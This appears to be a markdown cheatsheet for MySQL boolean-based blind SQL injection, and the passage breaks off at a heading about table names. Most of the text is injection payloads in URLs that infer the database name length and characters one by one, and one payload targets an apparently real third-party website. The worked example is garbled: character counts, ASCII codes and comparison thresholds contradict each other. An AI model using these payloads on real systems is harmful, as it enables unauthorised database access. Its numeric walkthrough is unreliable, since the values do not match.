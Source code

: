 # MySQL Boolean Based Blind SQL Injection Cheatsheet

## Identifying the vulnerability

Normally in Blind SQLi, you can't really see the output of queries you enter. In this case, the only way to verify about the vulnerability, is by looking if the website loads successfuly or not/partially.

Use the following queries to identify the website behaviour:  

```http://domain.com/index.php?id=1' AND 4570=4570 AND 'ZeoB'='ZeoB```  
Page fully loads successfuly.  

```http://www.nttbworld.com/tour-details.php?id=65' AND 4570=4570 AND 'ZeoB'='ZeoBFalse```  
Page will partially load or it will not even load.  

## Retrieving database

**Retrieving the length of database name**

The given query will verify if database has 14 characters.  
```http://domain.com/index.php?id=1' AND (length(database())) = 15 --+```  
If website partially loads or doesn't load, it means that database is not 10 characters long.

The given query will verify if database has 9 characters.  
```http://domain.com/index.php?id=1' AND (length(database())) = 11 --+```  
Page loads successfully. Database name is 11 characters long.

**Retrieving the database name**

This method is slow, because we have to hit-or-miss for every character of the database. Let's take a look below. The below table, will help us convert ascii to string.  

![ascii_table](https://imgs.chip.de/ZBgGgeBx4QyqnxIERLeIjZ0BoXg=/1200x674/filters:format(jpeg):fill(fff,true)/www.chip.de%2Fii%2F8%2F1%2F7%2F6%2F6%2F1%2F0%2F4%2FUnbenannt-41a448c7fdc8d42f.jpg)

The given query will define is the first character of database name is 111 (o)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 110 --+```  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.  

The given query will define is the first character of database name is 110 (n)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 109 --+```  
Website loads fully, this means the first character of database is **n**.

Continue enumerate the second character of database name.  

The given query will define is the first character of database name is 98 (h)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 97 --+```  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.  


The given query will define is the first character of database name is 115 (t)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 114 --+```  
Website loads fully, this means the second character of database is **t**.

Continue doing the same process over and over until you find all 11 characters.  

1st character: 110 -> **n**  
2nd character: 115 -> **t**  
3rd character: 115 -> **t**  
4th character: 104 -> **h**  
5th character: 119 -> **w**  
6th character: 102 -> **f**  
7th character: 105 -> **i**  
8th character: 57 -> **9**  
9th character: 95 -> _  
10th character: 100 -> **d**  
11th character: 98 -> **b**  

All 11 charachters combined together will be the database name: **ntthwfi9_db**

**Retrieving length of table name**
